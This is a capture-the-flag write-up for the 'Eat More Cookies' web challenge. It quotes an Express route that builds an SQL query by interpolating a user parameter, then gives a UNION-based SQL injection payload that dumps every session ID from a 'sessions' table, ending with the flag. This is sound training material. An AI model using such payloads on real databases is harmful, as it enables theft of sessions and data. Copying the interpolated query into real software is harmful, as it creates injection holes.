


# Eat More Cookies
> `-`

## About the Challenge
We got a website and also the source code (You can download the source code [here](EatMoreCookies.zip)). Here is the preview of the website



If we check the source code, especially this part:

```js
app.get("/searchcookies", isAuthenticated, async (req, res, next) => {
  cookies = req.query.cookies;

  const query = `SELECT * FROM cookies WHERE flavor = "${cookies}"`;

    pool.query(query, (err, result) => {
      if(err){
        return next(err)
      }

    return res.status(200).render("index", {cookies: result || []})
    });
})
```

The `cookies` paramter is vulnerable to SQL injection, and the flag is inside another table called `sessions`

```js
try {
    const adminCookieData = {"cookie":{"originalMaxAge":86400000,"expires":"2024-04-20T19:21:29.400Z","httpOnly":true,"path":"/", "sameSite": "lax"},"username":"Admin","isAdmin":true};
    const sessionId = 'WSUCTF{F4ke_Flag}';
    const expirationTimestamp = 1712172179;

    const serializedData = JSON.stringify(adminCookieData);

    const query = `INSERT INTO sessions (session_id, data, expires) VALUES (?, ?, ?)`;
```

## How to Solve?
To get every `session_id` inside `sessions` table, im using this payload:

```
" union select 1,(select group_concat(session_id) from sessions),3-- -
```



```
{WSUCTF24:S3arching_Thr0ugh_Very_Expr3ssive_DBz}
```